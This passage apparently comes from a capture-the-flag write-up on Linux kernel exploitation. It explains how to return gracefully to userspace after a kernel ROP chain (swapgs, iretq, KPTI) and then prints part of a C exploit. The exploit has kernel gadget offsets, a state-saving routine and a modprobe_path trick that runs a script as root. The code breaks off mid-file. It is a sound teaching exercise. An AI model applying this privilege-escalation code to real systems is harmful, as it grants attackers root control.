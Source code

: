 The only difference is that in kernelspace, after we finish our chain, we must return to userspace gracefully. The kernel is very fragile and will crash easily if you do not return gracefully.

> In order to return to user-mode, swapgs must be called before iretq. The purpose of this instruction is to also swap the GS register between kernel-mode and user-mode.
> 
> Additionally, due to KPTI, we must swap back from the kernel page table to the user-space page table, otherwise we will meet a segmentation fault.
{: .prompt-info}

Instead of reimplementing the wheel, we can simply use the `swapgs_restore_regs_and_return_to_usermode()` function to return to userspace gracefully.

Do note that we will also have to save and restore our userspace registers to return to user-mode gracefully.

The final payload is

```c
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <stdlib.h>

#define pop_rdi (kbase+0x1d675)
#define pop_rsi (kbase+0x6ff0c)
#define pop_rdx (kbase+0x7baf4a)
#define swapgs_iret (kbase+0x1001126)

#define copy_from_user (kbase+0x6e5d00)
#define modprobe_path (kbase+0x208c500)

int fd = 0;
unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

void win() {
        // prepare malicious modprobe path
        system("echo -e '#!/bin/sh\nchmod 777 /flag.txt' > /tmp/xpl.sh");
        system("chmod +x /tmp/xpl.sh");
        system("echo -e '\xff\xff\xff\xff' > /tmp/pwn");
        system("chmod +x /tmp/pwn");

        // call /tmp/xpl.sh with root permissions via modprobe_path
        system("/tmp/pwn");
        system("cat /flag.txt");
}

unsigned long user_rip = (unsigned long)win;

void perror(const char* msg) {
```